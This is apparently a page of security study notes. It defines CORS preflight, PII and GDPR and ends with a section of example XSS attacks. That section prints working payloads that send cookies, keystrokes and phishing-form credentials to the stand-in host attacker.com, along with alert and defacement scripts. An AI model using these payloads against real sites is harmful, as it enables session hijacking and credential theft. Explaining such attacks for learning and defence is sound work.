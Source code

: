 By using the OPTIONS request, the server can define its access control policies and communicate them to the browser, allowing for safe and controlled cross-origin communication while protecting against unauthorized or malicious requests.

### What is PII data?
PII stands for Personally Identifiable Information. It refers to any information that can be used to identify, locate, or contact an individual. PII data includes both sensitive and non-sensitive information that, when combined, can potentially identify a specific person. Examples of PII data include:

* Name: Full name, maiden name, aliases, or initials.
* Contact Information: Phone numbers, email addresses, physical addresses, or social media usernames.
* Identification Numbers: Social Security numbers, passport numbers, driver's license numbers, or national identification numbers.
* Financial Information: Bank account numbers, credit card numbers, or financial transaction history.
* Personal Characteristics: Date of birth, age, gender, race, or marital status.
* Biometric Data: Fingerprints, voiceprints, retina scans, or facial recognition data.
* Medical Information: Health records, medical history, or insurance information.
* Educational Information: School records, academic performance, or educational history.
* Employment Information: Job history, employee ID numbers, or salary details.
* Online Identifiers: IP addresses, usernames, or device identifiers.
* Protecting PII data is crucial to maintaining privacy and preventing identity theft, fraud, or unauthorized access to personal information. Organizations handling PII data are often required to implement security measures, such as encryption, access controls, and data breach notification protocols, to safeguard this sensitive information.

### What is GDPR?
In simple terms, GDPR is a set of rules that organizations must follow when collecting, storing, and processing personal data of individuals residing in the EU. Personal data includes any information that can be used to identify a person, such as their name, address, email, or even their IP address.

### Provide examples of XSS attacks
Alert Box: An attacker injects a script that triggers an alert box, displaying a message to the victim user. For example:
<script>alert('XSS Attack');</script>

Cookie Theft: An attacker can steal a user's session cookie, allowing them to impersonate the user and gain unauthorized access. For example:
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>

Defacement: An attacker alters the appearance or content of a website to deface it or spread a malicious message. For example:
<script>document.body.innerHTML = '<h1>Website Hacked!</h1>';</script>

Keylogging: An attacker captures keystrokes entered by the victim user, potentially capturing sensitive information like usernames, passwords, or credit card details. For example:
<script>document.onkeydown = function(e) { var key = String.fromCharCode(e.keyCode); new Image().src = 'http://attacker.com/collect.php?k=' + key; }</script>

Phishing: An attacker creates a convincing replica of a legitimate website and tricks users into entering their credentials, which are then captured by the attacker. For example:
<form action="http://attacker.com/steal.php" method="POST">
  <input type="text" name="username" placeholder="Username"><br>
  <input type="password" name="password" placeholder="Password"><br>
  <input type="submit" value="Login">
</form>
